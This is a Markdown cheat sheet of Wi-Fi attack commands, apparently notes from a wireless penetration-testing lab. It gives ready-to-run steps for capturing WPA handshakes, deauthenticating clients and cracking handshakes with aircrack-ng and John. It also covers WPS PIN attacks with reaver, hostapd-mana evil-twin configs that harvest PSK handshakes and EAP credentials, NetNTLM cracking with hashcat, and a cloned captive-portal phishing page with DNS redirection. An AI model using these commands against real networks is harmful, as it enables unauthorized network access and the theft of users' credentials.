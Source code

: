 # Useful Wireshark Filter
0x08 means beacons
```wlan.fc.type_subtype == 0x08 && wlan.ssid == "<targetname>" ```

filter on bssid
```wlan.bssid == <bssid>```

# Capturing handshakes  

## Starting monitor mode  
```sudo airmon-ng start wlan0 ```

## Starting monitor mode and setting a channel  
```sudo airmon-ng start wlan0 3  ```
Check channel
```iw <interface> info```

## Recon - see all  
```sudo airodump-ng wlan0mon```

## Recon specific (monitor channel 3)
```
sudo airmon-ng start wlan0 3
sudo airodump-ng --bssid <bssid> --essid <essid> wlan0mon -w <fileprefix> --channel <channel>
```
Then deauth from another shell or wifi card:
```sudo aireplay-ng -0 5 -a <BSSID> -c <client MAC> wlan0mon```

# Cracking handshakes

Default wordlists in Kali:  https://www.kali.org/tools/wordlists/

## Aircrack-ng
```aircrack-ng -w <path to wordlist> -e <ESSID> -b <BSSID> <capture filename>```

Aircrack with john rules
```sudo john --wordlist=<path to wordlist> --rules --stdout | aircrack-ng -e <ESSID> -b <BSSID> -w - <capture filename>```

# Cracking wps

## Recon
```sudo wash -i wlan0mon ```

## Attacks
```sudo reaver -b <bssid> -i wlan0mon -v```

May need -K  
```sudo reaver -b <bssid> -i wlan0mon -v -K```

# Evil Twin with hostapd-mana
Wiki: https://github.com/sensepost/hostapd-mana/wiki

## PSK
```
interface=wlan0
ssid=groupB_target_3
channel=3
hw_mode=g
ieee80211n=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=/home/kali/groupB_target_3.hccapx
```

Then crack with aircrack-ng

## EAP

/etc/hostapd-mana/mana.eap_user
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


hostapd-mana config file
```# SSID of the AP
ssid=groupB_target_4

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/home/kali/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Start evil twin with command
```
sudo hostapd-mana <configfile>
```

## Cracking hashes

Extract hashes:
```grep <JTR/HASHCAT> | cut -f2 >> <hashfile>```

Hashcat and John syntax
```
sudo hashcat -m 5500 <hashfile> <wordlist> 
john --format=netntlm <hashfile> --wordlist=<wordlist>
```

# Connecting to target network

wifi supplicant config file:
PSK
```
network={
  ssid="<ssid>"
  scan_ssid=1
  psk="<password>"
  key_mgmt=WPA-PSK
}
```
EAP
```
network={ 
      ssid="TEST-EAP" 
      priority=1 
      proto=RSN 
      key_mgmt=WPA-EAP 
      pairwise=CCMP 
      auth_alg=OPEN 
      eap=PEAP 
      identity="user1" 
      password="ThisPa$$wordIsExtraSecureBecauseItIsSuperLONG!@#" 
      phase1="peaplabel=0" 
      phase2="auth=MSCHAPV2" 
}
```
Then to connect (use the -B after verifying the connection is successful)
```
sudo wpa_supplicant -i <interface> -c <config file> -B 
sudo dhclient <interface>
```

# Captive Portals
```
sudo apt install apache2 libapache2-mod-php
wget -r -l2 <site to clone>
```

create index.php from wget, copy needed files to /var/www/html/portal

copy login_check.php to /var/www/html/portal

set up network
```sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
sudo apt install dnsmasq
```
create mco-dnsmasq.conf file and start dnsmasq
```
sudo dnsmasq --conf-file=mco-dnsmasq.conf
verify dns
sudo netstat -lnp
```

Install nftables if needed
```
sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
```
Update apache to use ssl
```
sudo a2enmod ssl
sudo systemctl restart apache2
```

start the evil twin with the mco-hostapd.conf file
```sudo hostapd -B mco-hostapd.conf```

